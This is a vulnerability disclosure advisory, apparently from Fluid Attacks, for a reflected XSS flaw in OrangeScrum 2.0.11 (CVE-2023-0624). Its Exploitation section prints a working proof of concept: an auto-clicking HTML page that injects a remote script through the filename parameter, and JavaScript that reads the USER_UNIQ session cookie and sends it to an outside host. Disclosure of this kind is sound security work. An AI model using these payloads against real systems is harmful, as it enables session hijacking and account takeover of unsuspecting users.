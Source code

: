 ```yaml
---
slug: advisories/oberhofer/
title: OrangeScrum 2.0.11 - Reflected XSS via filename
authors: Carlos Bello
writer: cbello
codename: oberhofer
product: OrangeScrum 2.0.11
date: 2023-02-13 12:00 COT
cveid: CVE-2023-0624
severity: 7.3
description: OrangeScrum 2.0.11 - Reflected Cross-Site Scripting via filename
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                         |
| --------------------- | ------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via filename         |
| **Code name**         | [Oberhofer](https://en.wikipedia.org/wiki/Oberhofer)    |
| **Product**           | OrangeScrum                                             |
| **Affected versions** | 2.0.11                                                  |
| **State**             | Public                                                  |
| **Release Date**      | 2023-02-13                                              |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0624](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0624)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="https://retr02332bughunter.orangescrum.com/defect/defects/download?filename=%3Cscript+type=%27text/javascript%27+src=%27https://retr02332.com/exploit-utils.js%27%3E%3C/script%3E"> Exploit</a>
        <script>
            document.getElementById("exploit").click();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/216176343-4430e676-1622-4af1-a866-3f773e6f6682.png)

<video width="835" height="505" controls>
    <source src="https://streamable.com/e/0bb1c1"
    type="video/mp4">
    <p>POC-XSS-OrangeScrum</p>
</video>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/216176496-96c7ad03-4a72-4eb3-adad-1f614f8ff508.png)

## Our security policy

We have reserved the ID CVE-2023-0624 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-02-07"
  contacted="2023-02-07"
  replied="2023-02-07"
  confirmed=""
  patched=""
  disclosure="2023-02-13">
</time-lapse>
